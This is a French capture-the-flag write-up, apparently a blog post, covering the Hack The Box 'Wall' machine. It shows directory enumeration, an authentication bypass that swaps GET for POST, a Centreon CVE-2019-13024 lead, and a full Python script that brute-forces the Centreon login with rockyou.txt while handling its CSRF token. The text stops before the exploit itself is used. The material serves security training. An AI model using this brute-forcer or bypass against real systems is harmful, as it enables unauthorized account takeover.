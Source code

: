 ```yaml
---
layout: post
title: HTB - Write Up
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Apache, Python, Centreon, BeautifulSoup]
comments: false
---
```



L'url http://10.10.10.157/ mène sur la page par défaut d'Apache sous Ubuntu

Nmap nous dit que les ports 22 ssh et 80 http sont ouverts

Énumérons les dossiers:

~~~
root@Host-001:~# dirb http://10.10.10.157

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  3 18:19:32 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)                         
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)                           
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)                        
                                                                               
-----------------
END_TIME: Thu Oct  3 18:20:44 2019
DOWNLOADED: 4612 - FOUND: 3
~~~

Se rendre sur http://10.10.10.157/monitoring

Nous avons une authentification .htaccess

Bypasser l'authentification en utilisant POST à la place de GET dans la requête avec Burp

On est reconduit sur la page 

On tombe sur une page de login de Centreon v. 19.04.0 

Cette version de Centreon est vulnerable CVE 2019-13024:

- [https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024](https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024)
- [https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

Utilisons l'exploit pour cette CVE: [https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da)

Pour utiliser cet exploit il faut avoir les bons credentials. 

Les credentials par défault admin::centreon ne fonctionnent pas pour la page http. Idem root::centreon ne fonctionne pas pour la connection SSH. Ref: [https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html](https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html)

Brute-forcer les credentials avec Hydra. Faux positif pour le compte admin sur la page http.

Script maison bruteForceCentreon.py:

~~~
#!/usr/bin/python3

#Custom script to crack credentials from Centreon login form (HTB: Wall machine)
#Inspired from: https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da


import requests
import sys
import warnings
from bs4 import BeautifulSoup

fd = open("/usr/share/wordlists/rockyou.txt", "rb")
passwd_list = fd.readlines()
fd.close()

for password in passwd_list:

	print("[+] Trying:" + password)
	request = requests.session()
	print("[+] Retrieving CSRF token to submit the login form")
	page = request.get("http://10.10.10.157/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")

	login_info = {
    		"useralias": "admin",
    		"password": password,
    		"submitLogin": "Connect",
    		"centreon_token": token
	}


	login_request = request.post("http://10.10.10.157/centreon/index.php", login_info)
	print("[+] Login token is : {0}".format(token))

	if "Your credentials are incorrect." not in login_request.text:
		print("[+] Logged In Sucssfully. Password is: " + password)
		exit()
	else:
		print("[-] Wrong credentials")
~~~

Lancer le script:

~~~
root@Host-001:~/Bureau# python bruteForceCentreon.py 
~~~

Résultat:

(...)

~~~
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 7335bffb040efca5cf401759956e8768
[-] Wrong credentials
[+] Trying:rock you

[+] Retrieving CSRF token to submit the login form
[+] Login token is : 06d5023d6c9d373d9e44aa0c4dae7a9a
[+] Logged In Sucssfully. Password is: rock you
~~~

On essaye de se loguer avec admin::rock you mais on tombe sur une erreur 403 

On modifie le script et on se rend compte que n'importe quel mdp avec un espace ou un # dedans renvoie une erreur 403

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)
[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
